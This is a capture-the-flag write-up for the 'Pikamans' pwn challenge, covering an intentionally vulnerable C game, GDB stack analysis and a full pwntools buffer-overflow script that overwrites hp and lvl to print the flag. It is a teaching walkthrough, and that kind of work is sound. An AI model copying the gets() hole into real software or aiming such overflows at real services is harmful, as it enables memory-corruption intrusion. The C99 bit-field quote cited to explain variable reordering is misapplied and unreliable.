


**WinterCTF 2025**

**Challenge:** Pikamans

**Category:** Pwn

**Flag:** ``winterctf{p1plup_b3st_pokem0n}``

I participated on my own in this CTF and got 1st place!

We're given the binary ``game``, the file ``game.c``, and the command ``nc challenge.tjcsec.club 31600``.

Here's ``game.c``:
```
// gcc -no-pie -fno-stack-protector -o game game.c

#include <stdio.h>

int main()
{
    setbuf(stdout, NULL);
    char name[10];
    printf("Welcome to the wonderful world of Pikamans! You'll start with just a level 1 pikachu and grind it up to become the strongest of all!\n");
    printf("Before all that, what is your name?\n");
    fgets(&name, 10, stdin);
    name[strcspn(name, "\n")] = 0;
    printf("Hello, %s! What a wonderful name! I hope you enjoy this epic adventure!\n", name);
    game();
    return 1;
}
int game()
{
    int ch;
    char option;
    int hp = 20;
    int lvl = 1;
    char buf[64];
    while (1)
    {
        printf("It's just you and pikachu! (f)ight other trainers, (r)est to recover hp, (t)alk with your pikachu, or (c)hallenge the pikaman master\n");
        option = getchar();
        while ((ch = getchar()) != '\n' && ch != EOF) { }
        printf("\n");
        if (option == 'f') 
          lvl += fight(lvl) / 10;
        else if (option == 'r')
        {
          hp = lvl*20;
          printf("HP recovered to full!");
        }
        else if (option == 't')
        {
          printf("Pika, pika!\n");
          gets(buf);
          printf("Pika? Pika?\n");
          fgets(buf, 64, stdin);
          printf("Pika!\n");
        }
        else if (option == 'c')
          challenge(lvl, hp);
        else
          printf("Please enter a valid option\n");
    }
}
int fight(int lvl)
{
  printf("An enemy appears!\n");
  printf("Choose your move! (t)ackle or (s)park ");
  int exp_calc = 0; // remember to add in exp calculations so the player can actually level up! :D
  char inp[8];
  gets(inp);
  printf("\nEnemy defeated!\n");
  return exp_calc; 
}
void challenge(int lvl, int hp)
{
  int enemyHp = 90;
  printf("The champion sends out his strongest pikaman, a level 90 Piplup to face your level %i Pikachu!\n", lvl);
  if (lvl > 99)
  {
    printf("The champion realizes you've cheated! He sends out a Nidoking with and X accuracy! It uses horn drill and your Pikachu faints! Game over!\n");
    exit(1);
  }
  while (1)
  {
    printf("Choose your move! (t)ackle or (s)park ");
    char choice = getchar();
    printf("\nPiplup uses Bubble Beam!\nDeals 1000 damage!");
    hp -= 1000;
    printf(" %i health remaining!\n", hp);
    if (hp <= 0)
    {
      printf("Pikachu fainted! Game Over!\n");
      exit(1);
    }
    printf("Pikachu attacks back!\n");
    enemyHp -= lvl;
    if (enemyHp <= 0) break;
  }
  printf("Piplup has been forced to run away! Congrats, you're the new pikaman master!\n");
  printf("Learn the secret that every master has worked to keep: ");
  char flag[30];
  FILE* file_ptr;
    
  file_ptr = fopen("./flag.txt", "r");
  if (file_ptr == NULL)
      printf("Failed to get flag. Make sure you have a file titled flag.txt somewhere in this directory!");
  else if(fgets(flag, 31, file_ptr) != NULL)
    puts(flag);
  exit(1);
}
```

According to the C code, the flag is printed after beating the Pikaman master and his level 90 Piplup.

His Piplup does 1000 damage, while our damage is dependent on our level:
``enemyHp -= lvl``

His Piplup has 90 HP and moves first, so our Pikachu must have greater than 1000 HP and deal at least 90 damage.

So, the first thing I did was connect to the server to see what would happen if I tried to beat him.



Despite that tragedy, I started looking at where user input is accepted.

The name-getting is safe (``fgets(&name, 10, stdin)``) because it uses bounds-checking.
However, talking to Pikachu does not!

For the first input:
```
printf("Pika, pika!\n");
gets(buf);
```

This usually means we can overflow ``buf`` to change ``hp`` and ``lvl``.
The problem is that ``hp`` and ``lvl`` are declared before ``buf``:
```
int hp = 20;
int lvl = 1;
char buf[64];
```
So, logically, we cannot overflow from ``buf`` into ``hp`` or ``lvl``.
This is because the stack grows towards lower memory addresses, but writing goes up in addresses. 
Since the targets (``hp`` and ``lvl``) are seemingly at lower addresses than ``buf``, it looks like overflowing into them is impossible.

Because of this, I was stuck for a while until I decided to look at the actual stack.

First, let's make sure addresses are fixed:


Great! The file type is ``EXEC`` and not ``DYN``, meaning PIE is disabled and addresses are fixed.

Using GDB, I disassembled the binary (renamed to ``pikaman``):
```
okazi@LAPTOP-OIO72VHV:/mnt/c/users/okazi/downloads$ gdb -nx ./pikaman
...
(gdb) disassemble game
Dump of assembler code for function game:
   0x000000000040123f <+0>:     push   %rbp
   0x0000000000401240 <+1>:     mov    %rsp,%rbp
   0x0000000000401243 <+4>:     sub    $0x50,%rsp
   0x0000000000401247 <+8>:     movl   $0x14,-0x4(%rbp)
   0x000000000040124e <+15>:    movl   $0x1,-0x8(%rbp)
   0x00000000004012fa <+187>:   lea    -0x50(%rbp),%rax
   0x00000000004012fe <+191>:   mov    %rax,%rdi
   0x0000000000401301 <+194>:   mov    $0x0,%eax
   0x0000000000401306 <+199>:   call   0x4010a0 <gets@plt>
```

**Note:** I omitted most of the disassembly as to not flood the entire page, but I left the important parts in.

Looking at the source code, ``hp`` is initialized at 20 and ``lvl`` at 1.

<+8> matches ``hp`` (0x14 = 20).
The ``-0x4(%rbp)`` in the same line means ``hp`` is at ``rbp - 4`` (0x4 = 4).

Likewise, <+15> matches ``lvl`` (0x1 = 1).
The ``-0x8(%rbp)`` in the same line means ``lvl`` is at ``rbp - 8`` (0x8 = 8).

Later on, we see the compiler calculate the address ``[rbp-x50]`` and store it in ``rax``.
It then moves the address in ``rax`` to ``rdi``, which means it's preparing to pass it as an argument.
After that, it clears the ``eax`` register (``$0x0,%eax``).
Finally, it calls ``gets(rdi)``, so ``buf``'s address must be in rdi.

Therefore, ``buf`` must start at ``[rbp-x50]``, which is ``rbp - 80``.

Contrary to what we thought before, ``hp`` and ``lvl`` are actually lower down than ``buf``!

I did research as to how in the world that's the case, and this is what I found:

"The order of allocation of bit-fields within a unit (high-order to low-order or low-order to high-order) is implementation-defined. The alignment of the addressable storage unit is unspecified."

[ISO C Standard (C99)](https://www.dii.uchile.cl/~daespino/files/Iso_C_1999_definition.pdf)

Translated into common-speak, this means the compiler can reorder variables however it wants for efficiency.

Anyway, this means we can overflow ``hp`` and ``lvl`` from ``buf``.

Let's check if there are any canaries by checking symbols for ``stack_chk``:
``readelf -s ./pikaman | grep stack_chk``

This returned no output, so there is no stack canary! This will make overflow easier since we don't need to worry about triggering the canary.

I will be using Python for the overflow, but you can use anything else that has the capabilities needed. The payload will be called ``pl``.

First, we connect to the server:
``p = remote('challenge.tjcsec.club', 31600)``

We receive the server's output until it asks for our name and send whatever is below 10 characters:
```
p.recvuntil(b'what is your name?\n')
p.sendline(b'butter')
```

We then receive until it asks us what to do, to which we respond to (t)alk with Pikachu:
```
p.recvuntil(b'or (c)hallenge the pikaman master\n')
p.sendline(b't')    

p.recvuntil(b'Pika, pika!\n')
```

Now, we can start building our payload for the first input.

First, we fill ``buf`` with 72 harmless characters:
``pl += b'A' * 72``

Since ``lvl`` is at a lower address than ``hp``, we overflow it first.
We must be careful to avoid the following anticheat in ``game.c``:
```
  if (lvl > 99)
  {
    printf("The champion realizes you've cheated! He sends out a Nidoking with and X accuracy! It uses horn drill and your Pikachu faints! Game over!\n");
    exit(1);
  }
  ```

Because of that, we overflow ``lvl`` to 90, the health of the Piplup (use p32() for little-endian format):
``pl += p32(90)``

After that, we overflow ``hp`` to 1001, enough to tank one hit from the Piplup:
``pl += p32(1001)``

Finally, we send our payload to Pikachu:
``p.sendline(pl)``

Pikachu is now thoroughly confused, but we must make sure to respond to Pikachu once more to make sure we get to the next input:
```
p.recvuntil(b'Pika? Pika?\n')
p.sendline(b'im sorry for losing earlier pikachu')
```

Now we can challenge the Pikaman Master and receive the flag!
```
p.recvuntil(b'or (c)hallenge the pikaman master\n')
p.sendline(b'c')

p.recvuntil(b'Choose your move!')
p.sendline(b's')

r = p.recvall(timeout=2).decode()
print(r)
```

Putting these together, we get the full script:
```
from pwn import *

p = remote('challenge.tjcsec.club', 31600)

p.recvuntil(b'what is your name?\n')
p.sendline(b'butter')

p.recvuntil(b'or (c)hallenge the pikaman master\n')
p.sendline(b't')    

p.recvuntil(b'Pika, pika!\n')

pl = b'A' * 72
pl += p32(90)
pl += p32(1001)
p.sendline(pl)  

p.recvuntil(b'Pika? Pika?\n')
p.sendline(b'im sorry for losing earlier pikachu')

p.recvuntil(b'or (c)hallenge the pikaman master\n')
p.sendline(b'c')

p.recvuntil(b'Choose your move!')
p.sendline(b's')

r = p.recvall(timeout=2).decode()
print(r)
```

It doesn't matter which attack you choose, because either way, you get the output:
```
 (t)ackle or (s)park
Piplup uses Bubble Beam!
Deals 1000 damage! 1 health remaining!
Pikachu attacks back!
Piplup has been forced to run away! Congrats, you're the new pikaman master!
Learn the secret that every master has worked to keep: winterctf{p1plup_b3st_pokem0n}
```

So the flag is ```winterctf{p1plup_b3st_pokem0n}```!
This is a valid opinion to have.
